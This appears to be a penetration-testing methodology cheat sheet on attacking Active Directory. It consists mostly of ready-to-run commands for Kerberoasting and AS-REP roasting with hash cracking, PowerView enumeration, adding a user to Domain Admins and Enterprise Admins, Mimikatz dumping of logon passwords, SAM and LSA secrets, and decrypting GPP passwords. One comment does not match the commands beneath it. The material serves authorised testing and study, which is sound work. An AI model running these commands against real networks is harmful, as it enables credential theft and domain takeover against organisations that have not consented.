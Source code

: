 # Methodology

## Enumeration

### Kali Commands

```bash
# Kerberoast
impacket-GetUserSPNs -request -dc-ip $IP -outputfile hashes.kerberoast $DOMAIN/$USER
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force

# AS-REP roast
impacket-GetNPUsers -request -dc-ip $IP -outputfile hashes.asreproast $DOMAIN/$USER
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
```

### Local Commands

First, run **[BloodHound](0%20Tools/BloodHound.md)**

**PowerView**

```powershell
# Import PowerView
. .\PowerView.ps1

# Idenfity DC (check Pdc)
Get-NetDomain

# Enumerate user objects
Get-NetUser | select samaccountname, name, displayname, userprincipalname, distinguishedname, objectsid, objectguid, memberof, lastlogon, pwdlastset, badpwdcount, badpasswordtime, useraccountcontrol
Get-NetUser $USER

# Enumerate group objects
Get-NetGroup | select cn, member
Get-NetGroup $GROUP | select cn, member
Get-NetGroup -UserName $USER | select cn

# Enumerate Computer objects
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion

# Find hosts on the local domain where the current user has local administrator access
Find-LocalAdminAccess

# Check for logged-in users
Get-NetSession -ComputerName $COMPUTER

# Enumerate SPNs linked to users
Get-NetUser -SPN | select samaccountname,serviceprincipalname

# Retrieve the ACL for the specified object
Get-ObjectAcl -Identity $OBJECT | select SecurityIdentifier,ActiveDirectoryRights
Convert-SidToName $SID
"$SID","$SID" | Convert-SidToName

# Check if any users have "GenericAll" over a specified object
Get-ObjectAcl -Identity $OBJECT | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# Enumerate domain shares
Find-DomainShare
Find-DomainShare -CheckShareAccess # Takes a long time
ls \\$COMPUTERNAME\$SHARE\$DOMAIN\
```

**Manual**

```powershell
# Print users within the current domain
net user /domain

# Check domain user information
net user offsec /domain

# Check domain groups
net group /domain
net group "$GROUP" /domain

# Add and remove "setphanie" from "Management Department"
net group "Domain Admins" mojo /add /domain
net group "Enterprise Admins" mojo /add /domain
```

### Tools

**[Mimikatz](0%20Tools/Local/Mimikatz.md)**

```bash
# Grab credentials with mimikatz
.\mimikatz.exe
privilege::debug
token::elevate
log
sekurlsa::logonpasswords
lsadump::sam
lsadump::secrets
token::revert
exit
```

**[gpp-decrypt](0%20Tools/gpp-decrypt.md)**

Decrypts GPP credentials. Typically found in files like `Groups.xml`, `Services.xml`, `Scheduledtasks.xml`, `DataSources.xml`, `Printers.xml`, and `Drives.xml`.

Key things to look for:

- **File Location:** GPP files are usually found in the `SYSVOL` folder on a domain controller, under the path `\\[DOMAIN]\SYSVOL\[DOMAIN]\Policies\`.
- **cpassword Attribute:** Within these XML files, look for the `cpassword` attribute. This attribute holds the encrypted form of the password.
- **XML Structure:** The structure of the XML file can give you a hint. For example, in a `Groups.xml` file, you might see something like:

```xml
<Group ...>
  <Properties ... cpassword="EDUYJgCbgCAmO5E..." ... />
</Group>
```

Decrypt with:

```bash
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

**[Rubeus](0%20Tools/Local/Rubeus.md)**

Crack associated hashes in hashcat

```bash
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
